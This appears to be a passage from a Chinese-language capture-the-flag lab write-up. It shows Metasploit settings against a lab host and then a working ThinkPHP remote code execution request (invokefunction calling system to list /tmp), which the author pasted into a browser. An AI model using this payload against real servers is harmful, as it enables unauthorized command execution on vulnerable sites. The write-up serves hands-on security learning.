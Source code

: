 ```ruby
show payloads
set payload <>
set RHOSTS 192.168.100.2
set RPORT 80
```
![](./images/设置thinkphp的exploit参数.png)
**但是在利用时，一直报错为无法解析thinkphp的版本，因此我很难利用这个exploit直接使用漏洞,而且从上帝视角中,我知道这个是迷惑内网，因此我只需要拿到我的flag就可以，因此我直接使用一个现成的poc利用了漏洞**
将poc在浏览器中访问输入:
```
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
```
![](./images/访问了thinkphp的页面.png)
